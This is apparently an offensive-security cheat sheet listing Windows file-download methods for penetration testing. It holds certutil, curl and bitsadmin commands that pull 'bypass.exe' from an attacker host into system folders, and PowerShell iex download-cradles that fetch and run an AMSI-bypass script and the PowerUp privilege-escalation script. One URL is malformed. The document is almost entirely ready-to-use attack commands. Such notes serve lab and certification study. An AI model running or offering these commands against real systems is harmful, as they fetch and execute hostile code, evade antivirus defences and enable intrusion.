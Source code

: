 ## Windows File Downloads

#### Certutil 
```
certutil -urlcache http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe
```

#### Curl 
```
curl http://192.168.45.201/bypass.exe C:\Users\Offsec\bypass.exe
```

#### Bitsadmin 
```
bitsadmin /Transfer myJob http://192.168.45.201/file.txt C:\Windows\Tasks\file.txt
bitsadmin /create 1 bitsadmin /addfile 1 http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
  reference: https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/

#### Powershell 
```
iex(new-object net.webclient).downloadstring('http://192.168.45.201amsi-reflect.ps1')
iex(new-object net.webclient).downloadstring('http://192.168.45.201/PowerUp.ps1'); Invoke-AllChecks
```
